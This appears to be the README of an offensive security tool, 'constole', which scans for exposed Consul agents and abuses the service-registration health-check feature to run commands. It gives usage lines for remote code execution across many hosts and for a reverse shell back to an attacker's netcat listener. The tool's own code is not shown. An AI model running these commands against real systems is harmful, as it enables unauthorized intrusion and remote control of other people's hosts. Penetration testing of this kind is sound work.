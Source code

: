 ## Overview
Scan for Consul agents and exploit them to gain shell.
I've been messing around with Consul and while reading the API, found the agent registration service.
Registrations feature check functionality, which is typically used to provide health checks on nodes.
A check can be an external application or script, which performs some kind of health check and provides some form of output.
Essentially, this can be any script you define to run at certain time intervals.

### Setup
```
pip install -r requirements.txt
```

### Usage
To scan for hosts running vulnerable Consul agent services, you can provide an comma-separated list with host:port,host:port,...,etc or an input file.
```
python constole.py --targets '10.50.30.1:8500,10.50.30.2:8500'
python constole.py --infile mytargets.txt
```
Remote Code Execution can be achieved across multiple hosts as follows:
```
python constole.py --infile mytargets.txt --cmd 'my command to run'
```
To obtain a reverse shell from the vulnerable host, start a netcat listener on your desired port and select a single target:
python constole.py --targets 10.50.30.1:8500 --lhost my_ip_address --lport my_listening_nc_port
```
Note that Constole will automatically try to deregister the service, after a time period, to assist in clean up during testing.
